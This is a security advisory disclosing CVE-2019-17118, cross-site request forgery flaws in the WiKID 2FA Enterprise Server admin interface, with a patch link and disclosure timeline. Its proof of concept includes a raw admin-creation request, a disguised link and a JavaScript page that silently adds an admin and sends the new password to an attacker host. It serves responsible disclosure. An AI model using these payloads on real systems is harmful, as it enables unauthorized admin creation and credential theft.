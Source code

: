 Multiple Cross-Site Request Forgery issues, CVE-2019-17118, were identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2053`.  The application did not implement any method of CSRF prevention, consequently, all state changing requests were potentially vulnerable, a sample of affected requests include:

* adm_usrs.jsp?action=add
* adm_usrs.jsp?action=Delete
* processDeviceStatus.jsp?action=Update
* processDeviceStatus.jsp?action=Disable
* processDeviceStatus.jsp?action=Enable
* processDeviceStatus.jsp?action=Delete
* groups.jsp?groupAction=Add
* groups.jsp?groupAction=Delete

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Walking through the application revealed that requests did not contain any method of CSRF protection.  For example, the request to create an admin user can be as simple as:

~~~
GET /WiKIDAdmin/adm_usrs.jsp?usr=test&newpass1=password1&newpass2=password1&action=Add HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=$COOKIE
Connection: close
Upgrade-Insecure-Requests: 1
~~~

This request could be hidden in a link on a page:

~~~
<a href="https://$RHOST/WiKIDAdmin/adm_usrs.jsp?usr=pentest&newpass1=password1&newpass2=password1&action=Add">WiKIDAdmin Manual</a>
~~~

Or in JavaScript that will execute silently in the background (some browsers may prevent this as C.O.R.S. headers are not set):

~~~
<html>
	<body>
        <script>
function notify(randomstring)
{
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "https://$LHOST?pass=" + randomstring, true);
	xhr.send();
}

function addUser()
{
	var randomstring = Math.random().toString(36).slice(-12);
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "https://$RHOST/WiKIDAdmin/adm_usrs.jsp?usr=pentest&newpass1="+randomstring+"&newpass2="+randomstring+"&action=Add", true);
	xhr.withCredentials = true;
	xhr.send();
	notify(randomstring);
}
addUser();
        </script>
	</body>
</html>
~~~

If a user, that is authenticated to the application, visits the malicious page a new admin will be unintentionally added.  The following demonstrates a user visiting the malicious page, `csrf.html`, followed by a request to create an admin,  finally a notification is sent to the attacker with the password:

![](network.png)

~~~
$RHOST - - [14/Oct/2019 04:44:17] "GET /?pass=0.xhd2htmjz1 HTTP/1.1" 200 -
~~~

